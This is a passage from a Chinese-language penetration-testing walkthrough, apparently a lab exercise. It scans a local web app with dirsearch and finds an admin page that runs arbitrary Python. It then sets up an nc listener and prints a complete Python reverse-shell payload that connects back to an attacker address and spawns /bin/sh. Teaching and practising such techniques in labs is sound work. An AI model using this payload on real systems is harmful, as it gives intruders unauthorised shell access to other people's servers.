 对于一个web网站,我们可以从已知的方面入手,就像刚才一样测试,但是进攻的方式还有很多,我们不妨再找一条路?

**目录扫描!!!**

既然当前的首页我们找不到漏洞,不如找找其他页面?

目录扫描的工具有很多,此处使用由python编写的工具**dirsearch**

`dirsearch -u "http://10.0.0.16:5000/"`

![截屏2021-08-04 下午1.16.05](https://tva1.sinaimg.cn/large/008i3skNly1gt4om70jnlj315w0h0770.jpg)

很顺利,我们发现了admin文件

对于web应用来说,**寻找敏感目录**是**非常重要**的一步,一定要记住!

![截屏2021-08-04 下午1.19.29](https://tva1.sinaimg.cn/large/008i3skNly1gt4opmo68xj31a40qg0u9.jpg)

此处具有执行代码的功能,奇怪,什么代码???

我们先尝试shell指令

`echo "hello world"`

![截屏2021-08-04 下午1.21.02](https://tva1.sinaimg.cn/large/008i3skNly1gt4or90styj30na0cmdgu.jpg)

居然显示代码执行出错?

看来不是shell指令,那么会是什么呢?

回顾我们之前nmap扫描的结果,这个web使用的是python中的模块搭建的,会不会执行的是python的代码呢?

我们尝试输入python代码

```python
def HH():
	print('HH')
HH()
```

![截屏2021-08-04 下午1.24.13](https://tva1.sinaimg.cn/large/008i3skNly1gt4oujiau2j30na0cmq3n.jpg)

代码运行成功了!

**在进行渗透测试时,一定要学会充分的信息收集,并将所收集到的信息运用到其他地方的测试~**

下一步,我们尝试通过执行python代码反弹shell

先在本地通过`nc -lp 4444`监听4444端口,再在web端执行如下代码

```python
import socket,os,subprocess
RHOST='10.0.0.12'  # Change it
RPORT=4444  # Change it
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  # 创建一个TCP-socket对象
s.connect((RHOST,RPORT)) 	# 连接攻击者
os.dup2(s.fileno(),0)		# 复制链接符
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])  # 创建子进程调用SHELL
```
